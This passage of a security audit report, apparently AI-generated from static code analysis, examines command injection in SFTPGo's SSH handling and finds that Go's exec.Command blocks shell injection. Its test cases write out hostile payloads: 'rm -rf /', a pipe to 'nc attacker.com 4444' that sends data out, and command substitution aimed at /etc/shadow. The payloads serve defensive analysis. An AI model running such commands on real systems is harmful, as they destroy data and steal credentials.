**Thinking:** This code uses Go's `net/url` package to construct the URL with query parameters. The `q.Add()` method and `q.Encode()` properly URL-encode special characters. This means:

- A username of `user&admin=true` would be encoded as `user%26admin%3Dtrue`
- An SSH command of `rsync; rm -rf /` would be encoded as `rsync%3B+rm+-rf+%2F`

The URL encoding prevents HTTP parameter injection. The HTTP request is a simple GET request made by SFTPGo to the configured notification URL — the user-controlled data is properly encoded in the query string.

#### 3.5.2 Exploitation Assessment for Vector 5

**NOT EXPLOITABLE** for command injection. The `net/url` package properly encodes all special characters. This vector could be relevant for **SSRF** (Server-Side Request Forgery) analysis if the notification URL is user-configurable, but since it's set in the server configuration file (not by SSH users), this is an admin-level risk only.

---

## 4. Exploitation Attempt Documentation

### 4.1 Test Payloads and Expected Behavior

The following payloads document what a security auditor would send when testing each vector, along with the exact code-level behavior.

#### Test Case 1: Shell Metacharacter Injection via SSH Exec

**Payload:**
```
ssh user@server "rsync; rm -rf /"
```

**parseCommandPayload processing** (Source: `ssh_cmd.go:423-428`):
```
Input:  "rsync; rm -rf /"
Split:  ["rsync;", "rm", "-rf", "/"]
Result: name="rsync;", args=["rm", "-rf", "/"]
```

**Allow-list check** (Source: `ssh_cmd.go:51`):
```
utils.IsStringInSlice("rsync;", enabledSSHCommands) → false
```

**Result:** Command rejected. The semicolon becomes part of the command name, which doesn't match any entry in the allow-list.

**Expected behavior:** The server rejects the command and logs:
```
ssh command not enabled/supported: "rsync;"
```

---

#### Test Case 2: Pipe Injection via SSH Exec

**Payload:**
```
ssh user@server "md5sum /etc/passwd | nc attacker.com 4444"
```

**parseCommandPayload processing:**
```
Input:  "md5sum /etc/passwd | nc attacker.com 4444"
Split:  ["md5sum", "/etc/passwd", "|", "nc", "attacker.com", "4444"]
Result: name="md5sum", args=["/etc/passwd", "|", "nc", "attacker.com", "4444"]
```

**Allow-list check:** `"md5sum"` is in `enabledSSHCommands` → passes.

**handleHashCommands processing** (Source: `ssh_cmd.go:105-148`):
- `getDestPath()` returns `"/4444"` (last argument, made absolute)
- `ResolvePath("/4444")` resolves to `<user_homedir>/4444`
- `HasPerm(PermListItems, "/4444")` is checked
- If the file `<user_homedir>/4444` doesn't exist, an error is returned

**Result:** The hash command treats all arguments as part of its own argument processing. The `|`, `nc`, `attacker.com`, and `4444` are never interpreted as shell commands. The pipe character is a literal argument.

---

#### Test Case 3: Command Substitution Injection via SSH Exec

**Payload:**
```
ssh user@server 'rsync --server -e.Lf . /$(id)'
```

**Prerequisite:** `rsync` must be in `enabled_ssh_commands`.

**parseCommandPayload processing:**
```
Input:  "rsync --server -e.Lf . /$(id)"
Split:  ["rsync", "--server", "-e.Lf", ".", "/$(id)"]
Result: name="rsync", args=["--server", "-e.Lf", ".", "/$(id)"]
```

**Allow-list check:** `"rsync"` is in `enabledSSHCommands` → passes.

**getSystemCommand processing** (Source: `ssh_cmd.go:288-331`):
- `getDestPath()` returns `"/$(id)"` (last argument, cleaned — `path.Clean("/$(id)")` returns `"/$(id)"`)
- `ResolvePath("/$(id)")` joins with the user's home directory: `filepath.Clean(filepath.Join(rootDir, "/$(id)"))` → `<homedir>/$(id)`
- The path `<homedir>/$(id)` likely does not exist on disk — `os.IsNotExist` triggers `findFirstExistingDir`
- If the home directory exists and is valid, the resolved path is returned
- The last argument in `args` is replaced with the resolved path: `<homedir>/$(id)`

**exec.Command execution:**
```go
exec.Command("rsync", "--safe-links", "--server", "-e.Lf", ".", "<homedir>/$(id)")
```

This becomes:
```
execve("/usr/bin/rsync", ["rsync", "--safe-links", "--server", "-e.Lf", ".", "<homedir>/$(id)"], env)
```

**Result:** The `$(id)` is passed as a **literal string** in the argument. The `rsync` binary sees a directory path containing the characters `$`, `(`, `i`, `d`, `)`. No shell interprets this string. The rsync process will simply report that the path does not exist.

---

#### Test Case 4: rsync Argument Injection (--rsync-path)

**Payload:**
```
ssh user@server "rsync --server --rsync-path=/bin/sh -e.Lf . /data"
```

**Prerequisite:** `rsync` must be in `enabled_ssh_commands`.

**parseCommandPayload processing:**
```
Input:  "rsync --server --rsync-path=/bin/sh -e.Lf . /data"
Split:  ["rsync", "--server", "--rsync-path=/bin/sh", "-e.Lf", ".", "/data"]
Result: name="rsync", args=["--server", "--rsync-path=/bin/sh", "-e.Lf", ".", "/data"]
```

**getSystemCommand processing:**
- Last argument `"/data"` is resolved through `ResolvePath` → `<homedir>/data`
- `--rsync-path=/bin/sh` is **not filtered** — it passes through as-is in `args`
- SFTPGo adds `--safe-links` or `--munge-links`

**exec.Command execution:**
```go
exec.Command("rsync", "--safe-links", "--server", "--rsync-path=/bin/sh", "-e.Lf", ".", "<homedir>/data")
```

**Thinking:** In rsync's server mode, `--rsync-path` specifies the rsync binary that the *client* should invoke on the remote side. When rsync runs with `--server`, it is the remote side. The `--rsync-path` option is typically used by the client to tell the remote rsync where to find itself. In this context, the server-side rsync (invoked by SFTPGo) is running with `--server` and receives `--rsync-path=/bin/sh`. This option is documented to be used by the **initiating** rsync (client side), not the server side. The server-side rsync process ignores `--rsync-path` because it's already running.

**Result:** The `--rsync-path` flag is ignored by rsync in `--server` mode. The argument injection does not lead to code execution in this specific case. However, this illustrates that SFTPGo does not filter rsync flags, and other flags with file-system side effects (like `--log-file`) could potentially be exploited to write data outside the chroot.

---

#### Test Case 5: Backtick Injection via SSH Exec

**Payload:**
```
ssh user@server 'md5sum `cat /etc/shadow`'
```

**parseCommandPayload processing:**
```
Input:  "md5sum `cat /etc/shadow`"
Split:  ["md5sum", "`cat", "/etc/shadow`"]
Result: name="md5sum", args=["`cat", "/etc/shadow`"]
```

**handleHashCommands processing:**
- `getDestPath()` strips single/double quotes from last argument, but backticks are **not** stripped
  Source: `ssh_cmd.go:360-361`:
  ```go
  destPath := strings.Trim(c.args[len(c.args)-1], "'")
  destPath = strings.Trim(destPath, "\"")
  ```
- Last argument `/etc/shadow\`` becomes path `/etc/shadow\`` (backtick is a literal character in the path)
- `ResolvePath("/etc/shadow\`")` joins with home dir → `<homedir>/etc/shadow\``
- File likely doesn't exist → error returned

**Result:** Backticks are literal characters. No shell interpretation occurs. The hash command simply fails to find the file.

### 4.2 Server Response Documentation

The server response format for SSH command execution is defined by two functions:

**Successful execution — sendExitStatus with nil error:**

Source: `sftpd/ssh_cmd.go:380-394`

```go
func (c *sshCommand) sendExitStatus(err error) {
    status := uint32(0)
    if err != nil {
        status = uint32(1)
        ...
    } else {
        logger.CommandLog(sshCommandLogSender, c.getDestPath(), "", c.connection.User.Username, "", c.connection.ID,
            protocolSSH, -1, -1, "", "", c.connection.command)
    }
    exitStatus := sshSubsystemExitStatus{
        Status: status,
    }
    c.connection.channel.SendRequest("exit-status", false, ssh.Marshal(&exitStatus))
    c.connection.channel.Close()
```

**What the client sees on success:**
- SSH channel receives `exit-status` request with `Status: 0`
- Channel is closed
- Client SSH session reports exit code 0

**Failed execution — sendErrorResponse:**

Source: `sftpd/ssh_cmd.go:373-378`

```go
func (c *sshCommand) sendErrorResponse(err error) error {
    errorString := fmt.Sprintf("%v: %v %v\n", c.command, c.getDestPath(), err)
    c.connection.channel.Write([]byte(errorString))
    c.sendExitStatus(err)
    return err
}
```

**What the client sees on failure:**
- SSH channel receives an error string in format: `<command>: <path> <error_message>\n`
- SSH channel receives `exit-status` request with `Status: 1`
- Channel is closed
- Client SSH session reports exit code 1

**Example error responses:**

| Scenario | Error Message on Channel |
|----------|------------------------|
| Path outside chroot | `rsync: /data path "/resolved/path" is not inside: "/user/homedir"\n` |
| Permission denied | `rsync: /data Permission denied. You don't have the permissions to execute this command\n` |
| Quota exceeded | `git-receive-pack: /repo denying write due to space limit\n` |
| Non-local filesystem | `rsync: /data command unsupported for this configuration\n` |

**Command rejected at allow-list (processSSHCommand returns false):**

Source: `sftpd/ssh_cmd.go:76-80`

```go
} else {
    connection.Log(logger.LevelInfo, logSenderSSH, "ssh command not enabled/supported: %#v", name)
}
```

When the allow-list rejects a command, `processSSHCommand` returns `false`. The SSH request handler replies with `ok = false`:

Source: `sftpd/server.go:326-329`

```go
case "exec":
    ok = processSSHCommand(req.Payload, &connection, channel, c.EnabledSSHCommands)
}
req.Reply(ok, nil)
```

**What the client sees:** The SSH exec request is rejected. The client receives a failure reply. Most SSH clients display:
```
bash: <command>: command not found
```
or simply report a non-zero exit status depending on the client implementation.

### 4.3 Log Entry Documentation

SFTPGo uses zerolog for structured JSON logging. The following log entries are produced during command execution:

#### Successful SSH Command Execution Log

Source: `logger/logger.go:153-169` — `CommandLog` function:

```json
{
  "level": "info",
  "time": "2024-01-15T10:30:45.123",
  "sender": "SSHCommand",
  "username": "john_doe",
  "file_path": "/data/files",
  "target_path": "",
  "filemode": "",
  "uid": -1,
  "gid": -1,
  "access_time": "",
  "modification_time": "",
  "ssh_command": "rsync --server -vlogDtprze.iLsfxC . /data/files",
  "connection_id": "a1b2c3d4e5f6",
  "protocol": "SSH"
}
```

This log entry is written by `sendExitStatus` when `err == nil`:

Source: `sftpd/ssh_cmd.go:387-388`

```go
logger.CommandLog(sshCommandLogSender, c.getDestPath(), "", c.connection.User.Username, "", c.connection.ID,
    protocolSSH, -1, -1, "", "", c.connection.command)
```

#### Failed SSH Command Log

Source: `sftpd/ssh_cmd.go:384-385` — When command fails:

```go
c.connection.Log(logger.LevelWarn, logSenderSSH, "command failed: %#v args: %v user: %v err: %v",
    c.command, c.args, c.connection.User.Username, err)
```

Produces via `logger/logger.go:109-111` (`Warn` function):

```json
{
  "level": "warn",
  "time": "2024-01-15T10:30:45.123",
  "sender": "ssh",
  "connection_id": "a1b2c3d4e5f6",
  "message": "command failed: \"rsync\" args: [--server -e.Lf . /data] user: john_doe err: path \"/resolved/path\" is not inside: \"/home/john_doe\""
}
```

#### SSH Command Rejected (Not in Allow-List) Log

Source: `sftpd/ssh_cmd.go:77`:

```go
connection.Log(logger.LevelInfo, logSenderSSH, "ssh command not enabled/supported: %#v", name)
```

```json
{
  "level": "info",
  "time": "2024-01-15T10:30:45.123",
  "sender": "ssh",
  "connection_id": "a1b2c3d4e5f6",
  "message": "ssh command not enabled/supported: \"bash\""
}
```

#### New SSH Command Received Log

Source: `sftpd/ssh_cmd.go:49-50`:

```go
connection.Log(logger.LevelDebug, logSenderSSH, "new ssh command: %#v args: %v user: %v, error: %v",
    name, args, connection.User.Username, err)
```

```json
{
  "level": "debug",
  "time": "2024-01-15T10:30:45.123",
  "sender": "ssh",
  "connection_id": "a1b2c3d4e5f6",
  "message": "new ssh command: \"rsync\" args: [--server -e.Lf . /data] user: john_doe, error: <nil>"
}
```

#### System Command Execution Log

Source: `sftpd/ssh_cmd.go:323`:

```go
c.connection.Log(logger.LevelDebug, logSenderSSH, "new system command %#v, with args: %v path: %v", c.command, args, path)
```

```json
{
  "level": "debug",
  "time": "2024-01-15T10:30:45.123",
  "sender": "ssh",
  "connection_id": "a1b2c3d4e5f6",
  "message": "new system command \"rsync\", with args: [--safe-links --server -e.Lf . /home/john_doe/data] path: /home/john_doe/data"
}
```

#### Action Hook Execution Log

Source: `sftpd/sftpd.go:432-433`:

```json
{
  "level": "debug",
  "time": "2024-01-15T10:30:45.123",
  "sender": "sftpd",
  "connection_id": "",
  "message": "executed command \"/usr/local/bin/hook.sh\" with arguments: \"ssh_cmd\", \"john_doe\", \"/home/john_doe/data\", \"\", \"rsync --server -e.Lf . /data\", elapsed: 50ms, error: <nil>"
}
```

#### Connection Failed Log

Source: `logger/logger.go:175-184`:

```json
{
  "level": "debug",
  "time": "2024-01-15T10:30:45.123",
  "sender": "connection_failed",
  "client_ip": "192.168.1.100",
  "username": "attacker",
  "login_type": "no_auth_tryed",
  "error": "Authentication error: could not validate password credentials: ..."
}
```

### 4.4 Error Messages and Blocking Mechanisms

The following table documents every blocking mechanism that prevents command injection, the Go source function that produces the error, and the architectural reason the attack is blocked:

| Blocking Mechanism | Error Message | Source Function | Architectural Reason |
|-------------------|---------------|-----------------|---------------------|
| Allow-list rejection | `"ssh command not enabled/supported: %#v"` | `processSSHCommand` (`ssh_cmd.go:77`) | Only commands in `enabledSSHCommands` slice pass the `utils.IsStringInSlice` check; all others are logged and rejected |
| Path outside chroot | `"path %#v is not inside: %#v"` | `isSubDir` (`vfs/osfs.go:286`) | `ResolvePath` calls `filepath.EvalSymlinks` and `isSubDir` to verify the resolved path has `rootDir` as a prefix |
| Invalid root path | `"Invalid root path: %v"` | `ResolvePath` (`vfs/osfs.go:202`) | Rejects resolution if the user's root directory is not an absolute path |
| Permission denied | `"Permission denied. You don't have the permissions to execute this command"` | `errPermissionDenied` (`ssh_cmd.go:30`) | System commands require all of: download, upload, create_dirs, list, overwrite, delete, rename permissions (Source: `ssh_cmd.go:158-161`) |
| Quota exceeded | `"denying write due to space limit"` | `errQuotaExceeded` (`ssh_cmd.go:29`) | Checked before system command execution: `User.QuotaFiles > 0 && User.UsedQuotaFiles > User.QuotaFiles` (Source: `ssh_cmd.go:155-157`) |
| Non-local filesystem | `"command unsupported for this configuration"` | `errUnsupportedConfig` (`ssh_cmd.go:31`) | `IsLocalOsFs` check blocks system commands for S3/cloud backends (Source: `ssh_cmd.go:152-153`) |
| exec.Command no-shell | N/A (structural defense) | Go runtime `os/exec` package | `execve(2)` system call — shell metacharacters are never interpreted |

---

## 5. Protective Mechanisms Summary

### 5.1 exec.Command Non-Shell Architecture

**The primary defense against command injection in SFTPGo.**

Go's `os/exec` package uses `execve(2)` (on Unix) or `CreateProcess` (on Windows) to launch processes directly, without invoking a shell interpreter. This is fundamentally different from functions like C's `system()`, Python's `os.system()`, or PHP's `exec()` which invoke `/bin/sh -c "command"`.

**Code evidence:**

Source: `sftpd/ssh_cmd.go:324`:
```go
cmd := exec.Command(c.command, args...)
```

Source: `sftpd/sftpd.go:421`:
```go
cmd := exec.CommandContext(ctx, actions.Command, operation, username, path, target, sshCmd)
```

Source: `dataprovider/dataprovider.go:742`:
```go
cmd := exec.CommandContext(ctx, config.ExternalAuthProgram)
```

Source: `dataprovider/dataprovider.go:787`:
```go
cmd := exec.CommandContext(ctx, config.Actions.Command, commandArgs...)
```

In all four call sites, the command and arguments are passed as separate parameters to `exec.Command`/`exec.CommandContext`. The Go runtime converts these to separate `argv` entries in the `execve` system call. **No shell is involved**, so shell metacharacters (`;`, `|`, `&&`, `||`, `` ` ``, `$(...)`, `>`, `<`, `\n`) have no special meaning.

**What this means for the scanner:**

A scanner that tests for shell injection by sending payloads like `; id` or `$(whoami)` and looking for output from those commands will **always** find that these payloads are ineffective against SFTPGo's command execution, regardless of configuration. The payload characters are passed as literal argv elements to the target binary.

### 5.2 Allow-List Command Validation

**The second layer of defense, gating which commands can be executed.**

Source: `sftpd/server.go:396-414`:

```go
func (c *Configuration) checkSSHCommands() {
    if utils.IsStringInSlice("*", c.EnabledSSHCommands) {
        c.EnabledSSHCommands = GetSupportedSSHCommands()
        return
    }
    sshCommands := []string{}
    if c.IsSCPEnabled {
        sshCommands = append(sshCommands, "scp")
    }
    for _, command := range c.EnabledSSHCommands {
        if utils.IsStringInSlice(command, supportedSSHCommands) {
            sshCommands = append(sshCommands, command)
        } else {
            logger.Warn(logSender, "", "unsupported ssh command: %#v ignored", command)
            logger.WarnToConsole("unsupported ssh command: %#v ignored", command)
        }
    }
    c.EnabledSSHCommands = sshCommands
}
```

**Thinking:** This validation runs at server startup. It filters the configured `enabled_ssh_commands` against the `supportedSSHCommands` list, discarding any unrecognized entries. The wildcard `"*"` expands to the full supported set. At runtime, every SSH exec request is checked against this validated list (Source: `ssh_cmd.go:51`). The allow-list ensures that:

1. Only the 12 recognized command names can be executed
2. Custom or arbitrary command names are never passed to `exec.Command`
3. Shell interpreters (`bash`, `sh`, `zsh`) are never in the supported list

### 5.3 ResolvePath Chroot Enforcement

**The third layer of defense, confining file operations to the user's home directory.**

Source: `vfs/osfs.go:200-223`:

```go
func (fs OsFs) ResolvePath(sftpPath string) (string, error) {
    if !filepath.IsAbs(fs.rootDir) {
        return "", fmt.Errorf("Invalid root path: %v", fs.rootDir)
    }
    r := filepath.Clean(filepath.Join(fs.rootDir, sftpPath))
    p, err := filepath.EvalSymlinks(r)
    if err != nil && !os.IsNotExist(err) {
        return "", err
    } else if os.IsNotExist(err) {
        _, err = fs.findFirstExistingDir(r, fs.rootDir)
        if err != nil {
            fsLog(fs, logger.LevelWarn, "error resolving not existent path: %#v", err)
        }
        return r, err
    }

    err = fs.isSubDir(p, fs.rootDir)
    if err != nil {
        fsLog(fs, logger.LevelWarn, "Invalid path resolution, dir: %#v outside user home: %#v err: %v", p, fs.rootDir, err)
    }
    return r, err
}
```

**Thinking:** `ResolvePath` performs a multi-step validation:

1. **Validates root directory** is an absolute path
2. **Joins the user-supplied path** with the root directory using `filepath.Join` and `filepath.Clean` — this normalizes `../` sequences
3. **Evaluates symlinks** using `filepath.EvalSymlinks` — this resolves any symlinks to their real targets
4. **Checks containment** using `isSubDir` (Source: `vfs/osfs.go:278-291`) — verifies the resolved path starts with the root directory prefix

Source: `vfs/osfs.go:278-291`:

```go
func (fs *OsFs) isSubDir(sub, rootPath string) error {
    parent, err := filepath.EvalSymlinks(rootPath)
    if err != nil {
        fsLog(fs, logger.LevelWarn, "invalid home dir %#v: %v", rootPath, err)
        return err
    }
    if !strings.HasPrefix(sub, parent) {
        err = fmt.Errorf("path %#v is not inside: %#v", sub, parent)
        fsLog(fs, logger.LevelWarn, "error: %v ", err)
        return err
    }
    return nil
}
```

This prevents directory traversal attacks (e.g., `../../etc/passwd`) and symlink-based escapes. The chroot enforcement applies to:
- Hash command paths (Source: `ssh_cmd.go:133`)
- System command destination paths (Source: `ssh_cmd.go:299`)
- All SFTP file operations (via `handler.go`)

### 5.4 Permission System Enforcement

Source: `sftpd/ssh_cmd.go:158-161`:

```go
perms := []string{dataprovider.PermDownload, dataprovider.PermUpload, dataprovider.PermCreateDirs, dataprovider.PermListItems,
    dataprovider.PermOverwrite, dataprovider.PermDelete, dataprovider.PermRename}
if !c.connection.User.HasPerms(perms, c.getDestPath()) {
    return c.sendErrorResponse(errPermissionDenied)
}
```

System commands require **all seven** permissions on the target path. Hash commands require only `PermListItems`:

Source: `sftpd/ssh_cmd.go:137-139`:

```go
if !c.connection.User.HasPerm(dataprovider.PermListItems, sshPath) {
    return c.sendErrorResponse(errPermissionDenied)
}
```

**Additionally**, on Unix systems, the spawned system command runs with the user's UID/GID credentials:

Source: `sftpd/cmd_unix.go:10-16`:

```go
func wrapCmd(cmd *exec.Cmd, uid, gid int) *exec.Cmd {
    if uid > 0 || gid > 0 {
        cmd.SysProcAttr = &syscall.SysProcAttr{}
        cmd.SysProcAttr.Credential = &syscall.Credential{Uid: uint32(uid), Gid: uint32(gid)}
    }
    return cmd
}
```

This means even if an attacker could control the command arguments, the executed process runs with limited OS-level permissions, constrained to the user's UID/GID.

---

## 6. SSH Command Processing Flow



---

## 7. Attack Vector Decision Tree



---

## 8. Conclusions and Recommendations

### 8.1 Risk Assessment per Configuration Profile

| Configuration Profile | Active Call Sites | Command Injection Risk | Primary Defense |
|----------------------|-------------------|----------------------|-----------------|
| **Default** (no changes to `sftpgo.json`) | 0 of 4 | **None** — no `exec.Command` call sites are reachable | All features disabled by default |
| **System commands enabled** (`enabled_ssh_commands: ["*"]`) | 1 of 4 | **Low** (shell injection) / **Medium** (argument injection) | `exec.Command` prevents shell injection; argument injection via rsync flags is a theoretical risk |
| **Action hooks enabled** (`actions.command` set + `execute_on` populated) | 2 of 4 | **Low-to-Medium** — depends on hook implementation | SFTPGo passes args safely via `exec.CommandContext`; risk is in the hook script's handling of arguments |
| **External auth enabled** (`external_auth_program` set) | 3 of 4 | **Medium** — attacker fully controls password env var | SFTPGo's own code is safe; risk is in the auth script's handling of env vars (explicitly warned in source code) |
| **All features enabled** | 4 of 4 | **Medium** — combined attack surface | All defenses active but dependent on external script quality |

### 8.2 Root Cause of Scanner Inconsistency

The vulnerability scanner produces inconsistent results because:

1. **Against default configuration:** Zero `exec.Command` call sites are reachable from user input. The scanner correctly finds no command injection. Only `md5sum`, `sha1sum`, `cd`, and `pwd` are enabled — all implemented internally without spawning processes.

2. **Against permissive configuration:** When `rsync` or `git-*` commands are enabled, the scanner detects that user-controlled data reaches `exec.Command` (Source: `ssh_cmd.go:324`). It may report this as a command injection vulnerability, depending on its analysis depth:
   - **Shallow analysis:** "User input reaches exec.Command" → reports vulnerable
   - **Deep analysis:** "exec.Command uses execve, not a shell" → reports not vulnerable for shell injection, but flags argument injection

3. **Against hook-enabled configuration:** The scanner may detect that user-controlled data flows into `exec.CommandContext` (Source: `sftpd.go:421`, `dataprovider.go:742`). Whether it reports this as vulnerable depends on whether it follows the data flow through to the external program.

### 8.3 Summary of Findings

| Finding | Severity | Status |
|---------|----------|--------|
| Direct shell command injection via SSH exec channel | N/A | **Not vulnerable** — `exec.Command` does not use a shell |
| Argument injection via rsync flags when rsync is enabled | Medium | **Theoretical risk** — unfiltered flags like `--rsync-path`, `--log-file` pass through |
| Indirect injection via action hook shell scripts | Medium | **Configuration-dependent** — risk exists only when using shell scripts as hooks that don't quote arguments |
| Credential injection via external auth shell scripts | Medium | **Configuration-dependent** — risk exists only when using shell scripts as auth programs that don't quote env vars |
| HTTP parameter injection via notification URL | N/A | **Not vulnerable** — Go's `net/url` properly encodes parameters |

### 8.4 Recommendations

1. **For administrators using default configuration:** No action required. The default configuration has zero command injection attack surface.

2. **For administrators enabling system commands (`rsync`, `git-*`):**
   - Consider filtering dangerous rsync options (`--rsync-path`, `--rsh`, `--log-file`, `--backup-dir`) in `getSystemCommand` before passing to `exec.Command`
   - Monitor logs for unusual rsync flag patterns (Source: `ssh_cmd.go:323` logs the full argument list)

3. **For administrators configuring action hooks (`actions.command`):**
   - **Prefer compiled binaries** over shell scripts for hook programs
   - If using shell scripts, **always quote all variables:** use `"$5"` not `$5`
   - Never use `eval` with user-controlled data
   - Set the environment variables (`SFTPGO_ACTION_*`) as the preferred method of reading user data, with proper quoting

4. **For administrators configuring external auth (`external_auth_program`):**
   - **Prefer compiled binaries** over shell scripts
   - If using shell scripts, **always quote all environment variable references:** use `"$SFTPGO_AUTHD_PASSWORD"` not `$SFTPGO_AUTHD_PASSWORD`
   - Note the explicit warning in SFTPGo source code (Source: `dataprovider/dataprovider.go:156-157`): variable contents are "not quoted" and "may contain special characters" and are "under the control of a possibly malicious remote user"

5. **For the SFTPGo development team:**
   - Consider adding an rsync flag allow-list in `getSystemCommand` to block dangerous options
   - Consider sanitizing or rejecting arguments containing path-like values for rsync options (`--log-file`, `--backup-dir`) that could write outside the chroot
   - The explicit warning in the external auth documentation is excellent and should be maintained

---

*This document was generated through static code analysis of the SFTPGo repository at branch `sftpgo_44634210287c`. All code references cite specific files and line numbers from the Go 1.13 codebase. No active exploitation or penetration testing was performed.*
